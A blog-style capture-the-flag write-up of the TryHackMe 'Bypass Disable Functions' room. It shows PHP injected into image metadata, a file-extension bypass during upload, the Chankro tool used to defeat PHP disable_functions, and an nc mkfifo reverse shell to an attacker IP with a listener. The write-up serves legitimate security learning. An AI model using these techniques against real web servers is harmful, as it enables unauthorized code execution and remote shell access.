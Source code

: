 ```yaml
---
layout: post
title: "TryHackMe - Bypass Disable Functions"
date: 2023-09-26 15:30:00 -0000
categories: php disable functions local file inclusion
excerpt: "How to get around PHP disabled_functions utilizing Local File Injection (LFI) and a bit on named pipes and reverse shells."
featured_image: "/assets/images/thm-bdf/thm-bdf-hero.jpg"
---
```


> Picture of an European common cat using Tamron AF 70-300mm F4-5.6 Di LD Macro 1:2 lens
> Date 	18 December 2010
> Source 	Own work
> Author 	Florinux  
> http://www.wikimapia.org/#lat=44.647834&lon=7.6567841&z=14&l=4&m=b  


# THM - Bypass Disable Functions  
https://tryhackme.com/room/bypassdisablefunctions  

## First spin up the target machine and navigate to the upload CV page  

We're going to upload an image with a PHP payload. Its benign and will help us gain info about the target system. I searched the interweb for a cat image, I saved it with the .jpg extension.  

## Generate phpinfo() payload using exiftool to inject PHP into an image's Meta Data  
```  
exiftool -Comment='<?php phpinfo(); ?>' ./street-cat.jpg  
```  

## Browse for the image file using the CV upload form. Before submitting, make sure you have Burp Suite setup to intercept requests to the target. Toggle Intercept On and submit the image.  

![](/assets/images/thm-bdf/thm-bdf-upload.png)

## Modify teh POST request to change image file extension from .jpg to .php  
![](/assets/images/thm-bdf/thm-bdf-burp.png)

## Navigate to /uploads/street-cat.php in the browser. We are presented with phpinfo()  
![](/assets/images/thm-bdf/thm-bdf-phpinfo.png)  

Take a look at the disabled_functions and DOCUMENT_ROOT envir0nment variables. The disabled_functions var tells us we can't use many of the classic PHP payload functions. We must resort to using other means. 

## Download and install Chankro  
https://github.com/TarlogicSecurity/Chankro/tree/master

## Generate bash payload (c.sh) using your favorite flavor of text editor or echo. Filepath should point to CONTEXT_DOCUMENT_ROOT
```bash  
#! /bin/bash
find / flag*.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag-location.txt  
#cat /path/to/flag/flag.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag.txt
```  

## Ex3cute chankro command using CONTEXT_DOCUMENT_ROOT value as an argument to generate a .php file  
```  
python2 chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/  
```  
## Add the magic gif word (GIF87a) to the top of the php file. 1 is line number, i is insert  
```  
sed -i '1iGIF87a' tryhackme.php
```  
## Rename the .php file extension to .jpg  
```  
mv tryhackme.php tryhackme.jpg
```  
## Upload the image file and use BurpSuite to rename the extension .php  
![](/assets/images/thm-bdf/thm-bdf-burp-2.png)

## Navigate to /uploads/tryhackme.php  

Try a few payloads... Once the flag is captured, we need to spin up a reverse shell for the sake of learning.  

## Generate a reverse shell payload  
https://revshells.com  
The nc mkfifo payload is very nice.  Change the IP to your attacker machine IP. Run 'ip addr' and look for tun0 or tun1

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```  
## Tangent about Reverse Shells and Named Pipes  

Here’s how it works:

1. **```rm /tmp/f;```** Deletes the file named “f” in the “/tmp” directory if it exists.
2. **```mkfifo /tmp/f;```** Creates a named pipe (FIFO) named “f” in the “/tmp” directory. This pipe acts as a stack for data between processes (First In First Out).
3. **```cat /tmp/f|```** Reads from the named pipe “f.” It effectively listens for any data written into the pipe and sends any data it reads to the standard input (stdin) of the interactive shell.
4. **```sh -i 2>&1|```** Starts an interactive shell (“sh”) and redirects stderr to the same address stdout is using. 2 represents standard error, 1 represents standard output. Redirect to address.
5. **```nc 10.10.10.10 9001```** Initiates a network connection to IP address 10.10.10.10 on port 9001.
6. **```>/tmp/f```** Redirects the standard output of the entire command (including the output from the interactive shell and the output from “nc”) to the named pipe “f” which is then read by **```cat```**.

## Setup the netcat listener on localhost    
```  
nc -lvnp 9001
```  

## Touch off /uploads/tryhackme.php using curl or the browser  
```  
curl https://x.x.x.x/uploads/tryhackme.php
``` 

## Success. Our payload is executed and we receive a connection.  
![](/assets/images/thm-bdf/thm-bdf-nc-mkfifo-shell.png)  

I tried a few variations of the reverse shell before settling on the **```nc mkinfo```** method. Some results of my testing show us the nature of what Chankro is doing behind the scenes. We obviously called the mail() PHP function to get our c.php to run. Kindof ingenious. The output I received was from the mail function. **```mail("a", "a", "a", "a");```** 

## Bind shell  
![](/assets/images/thm-bdf/thm-bdf-bind-shell.png)  

## Reverse Shell  
![](/assets/images/thm-bdf/thm-bdf-rev-shell.png)  

## Links I found along the way...  
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass  

https://www.positioniseverything.net/php-shell_exec/  

https://www.tarlogic.com/blog/bypass-disable_functions-open_basedir/  

https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a  

https://marketsplash.com/tutorials/php/php-reverse-shell/  

https://github.com/pentestmonkey/php-reverse-shell  

https://www.geeksforgeeks.org/uploading-a-reverse-shell-to-a-web-server-in-kali-linux/  

https://highon.coffee/blog/reverse-shell-cheat-sheet/  

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/